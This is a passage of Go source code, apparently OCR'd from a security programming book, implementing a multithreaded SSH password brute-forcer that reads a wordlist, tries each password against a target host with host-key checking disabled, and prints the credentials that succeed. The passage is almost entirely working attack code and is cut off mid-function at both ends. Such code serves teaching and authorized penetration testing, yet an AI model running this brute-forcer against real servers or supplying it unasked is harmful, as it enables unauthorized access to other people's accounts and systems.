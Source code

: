 ```go
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testSSHAuth(url, username, password string, doneChannel chan bool) { 
   sshConfig := &ssh.ClientConfig{ 
      User: username, 
      Auth: []ssh.AuthMethod{ 
         ssh.Password(password), 
      }, 
      // Do not check server key 
      HostKeyCallback: ssh.InsecureIgnoreHostKey(), 

      // Or, set the expected ssh.PublicKey from remote host 
      //HostKeyCallback: ssh.FixedHostKey(pubkey), 
   } 

   _, err := ssh.Dial("tcp", url, sshConfig) 
   if err != nil { 
      // Print out the error so we can see if it is just a failed   
      // auth or if it is a connection/name resolution problem. 
      log.Println(err) 
   } else { // Success 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
      password) 
      os.Exit(0) 
   } 

   doneChannel <- true // Signal another thread spot has opened up 
} 

func main() { 

   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testSSHAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
```